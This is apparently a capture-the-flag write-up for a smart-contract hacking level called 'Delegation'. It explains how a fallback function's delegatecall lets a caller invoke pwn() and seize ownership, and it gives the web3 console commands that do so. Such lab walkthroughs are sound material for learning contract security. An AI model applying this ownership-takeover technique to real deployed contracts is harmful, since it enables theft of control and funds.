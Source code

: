# Delegation

## Description

The fallback function makes a `delegatecall(msg.data)` to the contract we want
to hack. Because this other contract has a function `pwn()` that changes who the
owner is, we just need to activate the fallback function by sending a
transaction with this function signature encoded.

## Command Sequence

```
> const encodedFunction = web3.eth.abi.encodeFunctionSignature("pwn()")
> sendTransaction({from: player, to: instance, data: encodedFunction.slice(2)})
> await contract.owner()
we are now the owner
```
